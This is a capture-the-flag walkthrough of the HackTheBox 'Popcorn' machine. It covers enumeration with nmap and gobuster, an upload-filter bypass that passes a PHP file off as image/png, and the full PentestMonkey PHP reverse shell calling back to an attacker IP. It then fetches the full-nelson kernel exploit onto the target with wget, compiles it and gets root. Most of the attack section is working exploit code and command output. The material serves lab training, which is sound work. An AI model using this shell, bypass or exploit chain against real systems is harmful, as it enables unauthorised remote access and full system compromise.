





# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.6
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-20 14:10 +08
Nmap scan report for 10.10.10.6
Host is up (0.0040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/20%OT=22%CT=1%CU=43492%PV=Y%DS=2%DC=T%G=Y%TM=625FA3E
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=C8%GCD=1%ISR=C9%TI=Z%CI=Z%II=I%TS=8)SEQ(S
OS:P=CB%GCD=1%ISR=D9%TI=Z%II=I%TS=B)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=M5
OS:05NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=16A0%W2=16A0
OS:%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M505NNSNW6%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=
OS:16A0%S=O%A=S+%F=AS%O=M505ST11NW6%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=N
OS:)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=N)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT     ADDRESS
1   3.70 ms 10.10.14.1
2   4.37 ms 10.10.10.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.18 seconds

```

It seems like there’s a website. Let’s check it out!



It seems like there’s nothing much on the website.. or is it?

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# gobuster dir -u http://10.10.10.6 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/20 14:10:39 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47032]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/] 
Progress: 116133 / 220561 (52.65%)                                             [ERROR] 2022/04/20 14:11:30 [!] Get "http://10.10.10.6/server-status": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
                                                                                
===============================================================
2022/04/20 14:12:14 Finished
===============================================================
```

There’s an interesting directory `/torrent` OwO!


I tried to brute force the login page with some default credentials but failed.

So I tried signing up for an account instead!



# Exploit

After logging in with the newly created account, I checked out their upload page.



It seems like we can upload a torrent file here, but can we uploading anything else? 

Let’s use a PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell)!

```php
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Popcorn]
└─# cat exploit.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.9';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

Attempting to upload the reverse shell returns an error “`This is not a valid torrent file`"

Let’s upload a proper torrent [file](https://webtorrent.io/free-torrents) instead


It seems that after uploading the torrent, we can edit the torrent!

One of the features allow us to change the screenshot. Perhaps we can do something malicious here?



This time, trying to upload the reverse shell returns us a “`invalid file`” error.

What if we intercepted the request on Burp Suite and then change `Content-Type: application/x-php` to `Content-Type: image/png`?

```http
HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 06:48:54 GMT
Server: Apache/2.2.12 (Ubuntu)
X-Powered-By: PHP/5.2.10-2ubuntu6.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: private
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 138
Connection: close
Content-Type: text/html

Upload: exploit.php<br />Type: image/png<br />Size: 5.3623046875 Kb<br />Upload Completed. <br />Please refresh to see the new screenshot.
```

Great! It works. However, where is the file being uploaded to?

I used the same `Gobuster` command again on `http://10.10.10.6/torrent/` and found that there is an `/upload` directory!



From here, I started a netcat listener and executed the `php` file by clicking on the file.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 1234       
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.6] 34129
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 09:57:44 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -r
2.6.31-14-generic-pae
```

# Privilege Escalation

It seems like it’s a Linux machine, so let’s use Linux Exploit Suggester to find out the possible vulnerabilities!

```bash
- On local machine - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Popcorn]
└─# wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh 
--2022-04-20 15:01:53--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 89641 (88K) [text/plain]
Saving to: ‘les.sh’
les.sh                        100%[===============================================>]  87.54K   366KB/s    in 0.2s    
2022-04-20 15:01:55 (366 KB/s) - ‘les.sh’ saved [89641/89641]

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Popcorn]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

- On netcat shell -
$ wget http://10.10.14.9:8000/les.sh
--2022-04-20 10:05:56--  http://10.10.14.9:8000/les.sh
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 89641 (88K) [text/x-sh]
Saving to: `les.sh'
0K .......... .......... .......... .......... .......... 57% 2.35M 0s
50K .......... .......... .......... .......              100% 3.35M=0.03s
2022-04-20 10:05:56 (2.70 MB/s) - `les.sh' saved [89641/89641]
$ chmod +x les.sh
$ ./les.sh

Available information:

Kernel version: 2.6.31
Architecture: i686
Distribution: ubuntu
Distribution version: 9.10
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

79 kernel space exploits
49 user space exploits

Possible Exploits:

cat: write error: Broken pipe
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

...
```

It seems like the machine is highly likely to be vulnerable to `full-nelson` (local privilege escalation) exploit!

```bash
- On local machine - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Popcorn]
└─# wget http://vulnfactory.org/exploits/full-nelson.c                                                              
--2022-04-20 15:10:19--  http://vulnfactory.org/exploits/full-nelson.c
Resolving vulnfactory.org (vulnfactory.org)... 198.54.116.186
Connecting to vulnfactory.org (vulnfactory.org)|198.54.116.186|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9400 (9.2K) [text/plain]
Saving to: ‘full-nelson.c’
full-nelson.c                 100%[===============================================>]   9.18K  --.-KB/s    in 0s      
2022-04-20 15:10:20 (177 MB/s) - ‘full-nelson.c’ saved [9400/9400]
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Popcorn]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

- On netcat shell - 
$ wget http://10.10.14.9:8000/full-nelson.c
--2022-04-20 10:12:11--  http://10.10.14.9:8000/full-nelson.c
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9400 (9.2K) [text/x-csrc]
Saving to: `full-nelson.c'
0K .........                                             100%  648K=0.01s
2022-04-20 10:12:11 (648 KB/s) - `full-nelson.c' saved [9400/9400]

$ gcc full-nelson.c -o full-nelson
$ chmod +x full-nelson
$ ./full-nelson
id
uid=0(root) gid=0(root)
cd /home
ls
george
cd george
ls
torrenthoster.zip
user.txt
cat user.txt
c1b9db61d386e3f830c010480ab54077
cd /root
ls
root.txt
cat root.txt
c5ba80b7f9f478d28cbbf7c59df47478
```

